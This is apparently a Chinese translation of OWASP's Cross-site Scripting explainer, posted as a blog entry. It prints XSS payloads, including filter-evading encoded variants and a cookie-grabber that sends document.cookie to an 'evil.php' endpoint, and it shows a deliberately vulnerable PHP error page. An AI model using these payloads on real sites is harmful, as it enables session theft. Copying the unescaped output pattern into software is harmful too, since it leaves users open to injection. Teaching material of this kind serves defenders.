```yaml
---
layout: post
title: "[WEB]Cross-site_Scripting_(XSS)"
date: 2018-12-27 08:18:02 +0800
categories: [security,web]
tags: [security,web]
---
```


跨站點腳本（XSS）攻擊發生在：

數據通過不受信任的來源進入Web應用程序，最常見的是Web請求。
數據包含在動態內容中，該動態內容在未經過惡意內容驗證的情況下發送給Web用戶。
發送到Web瀏覽器的惡意內容通常採用JavaScript段的形式，但也可能包括HTML，Flash或瀏覽器可能執行的任何其他類型的程式碼。
基於XSS的各種攻擊幾乎是無限的，但它們通常包括向攻擊者傳輸私有數據（如cookie或其他會話信息），將受害者重定向到攻擊者控制的Web內容，或者在用戶的計算機上執行其他惡意操作在易受攻擊的網站的幌子下。


### 儲存型XSS攻擊
儲存攻擊是指注入的腳本永久儲存在目標服務器上的攻擊，例如在數據庫，消息論壇，訪問者日誌，註釋字段等中。受害者在請求儲存時從服務器檢索惡意腳本。信息。儲存的XSS有時也稱為持久性或類型I XSS。

### 反射型XSS攻擊
反射攻擊是指注入的腳本從Web服務器反射出來的攻擊，例如錯誤消息，搜索結果或包含作為請求的一部分發送到服務器的部分或全部輸入的任何其他響應。反射的攻擊通過其他途徑傳遞給受害者，例如在電子郵件中或在其他一些網站上。當用戶被欺騙點擊惡意鏈接，提交特製表單，甚至只是瀏覽惡意網站時，注入的程式碼會傳播到易受攻擊的網站，這會將攻擊反映回用戶的瀏覽器。然後瀏覽器執行程式碼，因為它來自“可信”服務器。反射的XSS有時也稱為非持久性或II型XSS。


XSS在屬性中使用腳本
可以在不使用`<script> </script>`標記的情況下進行XSS攻擊。其他標籤將完全相同，例如：
```html
<body onload=alert('test1')>
```

或其他屬性，如：onmouseover，onerror。

#### onmouseover

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

#### onerror

```html
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

### XSS使用腳本通過編碼的URI方案

如果我們需要隱藏Web應用程序過濾器，我們可能會嘗試對字符串字符進行編碼，例如： e.g.: a=&#X41 (UTF-8)並在IMG標記中使用它：

```html
<IMG SRC=j&#X41vascript:alert('test2')>
```

### XSS using code encoding
我們可以在base64中對腳本進行編碼並將其放在META標記中。 這樣我們完全擺脫了alert（）。 有關此方法的更多信息，請參閱[RFC 2397](https://tools.ietf.org/html/rfc2397)

```html
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

---

## Examples

### Attack Examples
### Example 1: Cookie Grabber

如果應用程序未驗證輸入數據，則攻擊者可以輕鬆地從經過身份驗證的用戶竊取cookie。 攻擊者所要做的就是將以下程式碼放在任何發布的輸入中（即：留言板，私人消息，用戶配置文件）：

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

上面的程式碼將傳遞cookie的轉義內容（根據RFC內容必須在通過HTTP協議使用GET方法發送之前將其轉義）到“cakemonster”變量中的evil.php腳本。 然後攻擊者檢查他的evil.php腳本的結果（cookie抓取器腳本通常會將cookie寫入文件）並使用它。

### 錯誤頁面示例
假設我們有一個錯誤頁面，它處理對非現有頁面的請求，這是一個經典的404錯誤頁面。 我們可以使用下面的代碼作為示例來通知用戶缺少哪個特定頁面：

```html
<html>
<body>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

讓我們看看它是如何工作的：

```html
http://testsite.test/file_which_not_exist
```
作為回應我們得到：
```html
Not found: /file_which_not_exist
```
現在我們將嘗試強制錯誤頁面包含我們的程式碼：

```html
http://testsite.test/<script>alert("TEST");</script>
```
結果是：
```html
Not found: / (but with JavaScript code <script>alert("TEST");</script>)
```
我們已經成功注入了代碼，我們的XSS！ 這是什麼意思？ 例如，我們可能會利用此漏洞試圖竊取用戶的會話cookie。

資料來源
[https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))